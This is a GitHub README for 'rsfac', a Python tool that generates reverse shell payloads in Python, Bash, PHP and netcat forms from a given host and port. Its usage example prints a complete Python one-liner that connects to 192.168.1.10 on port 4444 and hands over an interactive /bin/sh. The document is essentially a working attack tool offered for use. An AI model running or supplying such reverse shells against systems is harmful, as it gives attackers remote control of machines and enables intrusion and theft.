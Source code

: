 <h1 align="center">rsfac</h1>
<p align="center">Reverse Shell Factory</p>
<p align="center">It is simple to create many types of reverse shell by command line.</p>
<p align="center"> 
   <img src="https://img.shields.io/badge/language-python-blue.svg">
</p>

***

## Help Menu
```
    ------Help Menu------
    Reverse Shell Factory
    v.1
    
    Usage Mathod:
    python3 rsfac.py <args>
    
    Example:
    python3 rsfac.py l=py h=192.168.1.10 p=4444
    
    
    -Commands-----------
    h=        Local Host
    p=        Local Port
    l=           Payload
    help       Help Menu
    
    
    -Reverse Shell Payloads------
    py              Simple Python
    py3            Simple Python3
    bash              Simple Bash
    php                Simple PHP
    php2       Second Type of PHP
    phpw     Shell For Web Server
    phpw2   Simple For Web Server
    nc          Some Types Netcat

```
## Usage Example

```
Reverse Shell Factory

Local Host: 192.168.1.10
Local Port: 4444
Type: py

Simple Python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
